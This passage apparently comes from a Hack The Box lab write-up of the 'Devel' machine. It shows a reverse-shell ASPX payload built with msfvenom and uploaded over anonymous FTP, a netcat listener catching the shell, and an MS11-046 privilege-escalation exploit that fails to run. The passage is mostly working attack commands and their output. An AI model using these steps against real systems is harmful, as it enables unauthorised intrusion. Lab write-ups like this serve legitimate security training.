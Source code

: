 ```
ftp> pwd
257 "/" is current directory.

```

Normally I would create a custom payload with msfvenom after this in exe or sh format in order to establish a reverse shell. But since this server is running IIS, asp is the primary way to do so, therefore I made a payload the following way, and transferred it via filezilla as anonymous towards the server:

```
root@kali:/home/kali/Desktop/HTB/machines/devel# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.35 LPORT=4242 -f aspx > reverse.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2755 bytes

```
Start an NC listening shell on port 4242, and ecevute the aspx file via the webbrowser:

```
root@kali:/home/kali/Desktop/HTB/machines/devel# nc -lvp 4242
listening on [any] 4242 ...
10.129.98.166: inverse host lookup failed: Unknown host
connect to [10.10.14.35] from (UNKNOWN) [10.129.98.166] 49178
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web

```
We have two other users on this system, babis and Administrator. And we cant view the contents of their home folders. So privilege escalation time. I found [this](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046) exploit. Execute the exe after you dragged it to the server:

```
C:\inetpub\wwwroot>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of c:\inetpub\wwwroot

16/02/2021  06:13 ��    <DIR>          .
16/02/2021  06:13 ��    <DIR>          ..
18/03/2017  01:06 ��    <DIR>          aspnet_client
16/02/2021  04:46 ��             2.081 firstnmap.txt
17/03/2017  04:37 ��               689 iisstart.htm
16/02/2021  06:13 ��           112.815 MS11-046(1).exe
16/02/2021  04:47 ��             1.172 nikto.txt
16/02/2021  05:25 ��             2.755 reverse.aspx
16/02/2021  05:03 ��            73.802 reverse.exe
17/03/2017  04:37 ��           184.946 welcome.png
16/02/2021  05:59 ��            35.761 winPEAS.bat
               8 File(s)        414.021 bytes
               3 Dir(s)  22.204.616.704 bytes free

c:\inetpub\wwwroot>MS11-046(1).exe
MS11-046(1).exe
'MS11-046' is not recognized as an internal or external command,
operable program or batch file.

```
